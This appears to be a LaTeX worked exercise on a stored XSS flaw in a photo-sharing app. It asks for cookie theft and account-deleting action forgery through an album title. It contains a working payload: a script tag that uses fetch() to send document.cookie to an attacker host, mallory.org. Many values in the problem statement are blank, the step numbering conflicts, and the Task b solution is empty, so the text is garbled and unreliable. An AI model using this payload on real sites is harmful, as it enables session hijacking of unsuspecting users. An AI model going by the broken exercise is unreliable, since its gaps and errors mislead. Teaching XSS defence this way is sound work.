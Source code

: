 \begin{templatebox}{8C --- Stored XSS in Shared Resource: Cookie Theft vs.\ Silent Action Forgery}
\textbf{Problem Specification:} A photo-sharing web app at  lets user Mallory create an album with title  and share it with victim Alice. When Alice opens the shared album page, the server renders  directly into the HTML without escaping. Alice is logged in with session cookie . The app supports  to delete the currently logged-in user's account.
\textbf{Tasks:} (a) Classify the vulnerability and construct an album title  that steals Alice's  to  when . (b) Suppose the administrator sets  and  on . Determine whether Mallory can still steal , and construct an album title  that deletes Alice's account when she views the album.

\medskip
\textbf{Procedural Solution Execution:}
\begin{itemize}
  \item \textbf{Steps 1--3 (Stored XSS Cookie Exfiltration --- Task a):}
  Because album title  is persisted on the server and rendered unescaped into Alice's browser under $\mathrm{Origin} = (\texttt{https}, \texttt{photos.example.org}, 443)$, this is . With , Mallory sets the album title to:
  \[
    \texttt{T} = \texttt{Vacation</h2><script>fetch("https://mallory.org/collect?sid=" + document.cookie);</script><h2>}
  \]
  When Alice views the album, her browser executes the script in 's origin, reads , and transmits  to  (SOP allows outbound cross-origin requests).
  \item \textbf{Steps 2--4 ( +  vs.\ Stored XSS Action Forgery --- Task b):}
\end{itemize}
\end{templatebox}



